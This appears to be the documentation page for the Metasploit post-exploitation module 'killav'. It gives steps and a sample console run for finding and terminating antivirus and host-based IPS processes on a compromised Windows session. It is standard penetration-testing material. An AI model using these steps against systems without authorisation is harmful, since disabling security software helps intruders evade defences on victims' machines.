 ## Vulnerable Application

This module attempts to locate and terminate any processes that are identified
as being Antivirus or Host-based IPS related.

## Verification Steps

1. Start msfconsole
2. Get a session
3. Do: `use post/windows/manage/killav`
4. Do: `set SESSION <session id>`
5. Do: `run`

## Options


## Scenarios

### Windows 7 SP1 (x64)

```
msf6 > use post/windows/manage/killav
msf6 post(windows/manage/killav) > set session 1
session => 1
msf6 post(windows/manage/killav) > run

[*] Attempting to terminate 'antivirus.exe' (PID: 5340) ...
[+] antivirus.exe (PID: 5340) terminated.
[*] Attempting to terminate 'regedit.exe' (PID: 2296) ...
[+] regedit.exe (PID: 2296) terminated.
[+] A total of 2 process(es) were discovered, 2 were terminated.
[*] Post module execution completed
msf6 post(windows/manage/killav) > 
```
